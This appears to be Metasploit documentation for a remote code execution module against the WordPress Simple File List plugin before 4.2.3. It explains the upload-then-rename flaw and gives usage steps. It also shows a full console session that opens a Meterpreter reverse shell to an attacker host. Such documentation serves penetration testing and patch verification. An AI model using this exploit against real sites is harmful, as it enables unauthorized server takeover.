 ## Vulnerable Application

The Simple File List (simple-file-list) plugin before 4.2.3 for WordPress allows remote, unauthenticated attackers to
upload files within a controlled list of extensions. However, the rename function does not conform to the file extension
restrictions, thus allowing arbitrary PHP code to be uploaded first as a PNG file then renamed to use the PHP extension
and executed.

Download simpe-file-list [4.2.2](https://downloads.wordpress.org/plugin/simple-file-list.4.2.2.zip) or another
version < 4.2.3 from [here](https://wordpress.org/plugins/simple-file-list/advanced/).

Install and enable the plugin, no additional configuration is required.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/wp_simple_file_list_rce`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Simple File List 4.2.2 on Wordpress 5.5.3 on Debian 10.6

```
msf6 > use exploit/multi/http/wp_simple_file_list_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_simple_file_list_rce) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf6 exploit(multi/http/wp_simple_file_list_rce) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/http/wp_simple_file_list_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Attempting to upload the PHP payload as a PNG file
[+] PNG payload successfully uploaded
[*] Attempting to rename fkzUTKAp.png to fkzUTKAp.php
[+] Successfully renamed fkzUTKAp.png to fkzUTKAp.php
[*] Triggering shell
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 4 opened (1.1.1.1:4444 -> 2.2.2.2:38366) at 2020-11-25 09:55:37 -0500
[+] Deleted fkzUTKAp.php

meterpreter > getuid
Server username: daemon (1)
meterpreter > sysinfo
Computer    : debian
OS          : Linux debian 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64
Meterpreter : php/linux
meterpreter >
```
